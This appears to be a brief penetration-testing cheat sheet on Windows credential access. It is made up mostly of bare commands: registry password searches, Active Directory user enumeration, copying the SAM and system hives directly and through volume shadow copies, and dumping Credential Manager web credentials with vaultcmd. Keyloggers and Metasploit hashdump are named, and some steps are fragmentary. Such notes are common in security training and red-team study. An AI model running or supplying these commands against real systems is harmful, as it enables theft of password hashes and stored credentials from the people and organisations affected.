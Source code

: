 # Credential Access
Credentials are stored insecurely in various locations in systems:
    Clear-text files
    Database files
    Memory
    Password managers
    Enterprise Vaults
    Active Directory
    Network Sniffing

The following are some of the types of clear-text files that an attacker may be interested in:
    Commands history
    Configuration files (Web App, FTP files, etc.)
    Other Files related to Windows Applications (Internet Browsers, Email Clients, etc.)
    Backup files
    Shared files and folders
    Registry
    Source code 

Get-ADUser -Filter * -Properties * | select Name,SamAccountName,Description   
C:\Users\user> reg query HKLM /f SEARCHKEY_WORD /t REG_SZ /s
C:\Users\user> reg query HKCU /f SEARCHKEY_WORD /t REG_SZ /s

# Local Credds Dumping
KeyLogger

Metasploits HashDump

copy c:\Windows\System32\config\sam C:\Users\Administrator\Desktop\
copy c:\Windows\System32\config\hive C:\Users\Administrator\Desktop\ 

wmic shadowcopy call create Volume='C:\'
vssadmin list shadows
\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
Decrypt it!

\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\Administrator\Desktop\sam

reg save HKLM\sam C:\users\Administrator\Desktop\sam-reg


# Credential Manager
vaultcmd /list
VaultCmd /listproperties:"Web Credentials"
VaultCmd /listcreds:"Web Credentials"
